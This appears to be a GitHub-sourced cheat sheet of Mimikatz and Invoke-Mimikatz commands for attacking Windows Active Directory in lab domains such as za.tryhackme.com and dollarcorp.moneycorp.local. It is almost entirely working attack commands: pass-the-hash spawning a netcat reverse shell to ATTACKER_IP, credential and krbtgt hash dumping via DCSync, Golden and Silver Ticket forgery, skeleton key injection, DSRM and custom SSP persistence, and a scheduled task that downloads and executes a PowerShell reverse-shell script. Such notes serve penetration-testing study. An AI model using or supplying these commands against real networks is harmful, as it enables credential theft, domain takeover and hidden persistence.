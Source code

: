 ```bash
# AES256 hash:
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

# Golden Ticket
lsadump::dcsync /user:za\krbtgt
```
- We can also use `Invoke-Mimikatz.ps1` for the same purposes
```bash
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1", "sys2")
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain dollarcorp.moneycorp.local /ntlm:<HASH> /run:powershell.exe"' # Over pass the hash attack
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local # Dumping hashes

# Golden Ticket
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' # Getting krbtgt hash
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:600 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"' # Creating Golden Tickets

# DC Sync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Silver Ticket
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:7a989885c483d28df1c60dbf1be54f86 /ptt"'

# Services we can use for Silver Ticket
# https://adsecurity.org/?p=2011
# Like `CIFS` will allow us to view files
# CIFS = View Files
# HOST = Scheduling Tasks
# WSMAN = Powershell Remoting
# After getting HOST we can use this to create scheduled tasks:
schtasks /create /S dcrop-dc.dollarcorp.moneycorp.local /SC weekly /RU "NT AUTHORITY\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'IEX(New-Object Net.WebClient).downloadString(''http://10.10.14.42/Invoke-PowerShellTCP.ps1'')'"
# To run them
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"

# Skeleton Keys
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\Administrator # To use the password `mimikatz`

# DSRM Hash dump for persistence
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc
# Then before using it we need to alter the logon behavior first
New-ItemProperty "'HKLM:\System\CurrentControlSet\Control\Lsa\'" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
# Use this as local administrator on any machine to get domain admin
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

# Persistence using Custom SSP
# Method 1:
Invoke-Mimikatz -Command '"misc::memssp"'
# Method 2:
# The `mimilib.dll` needs to be on disk
```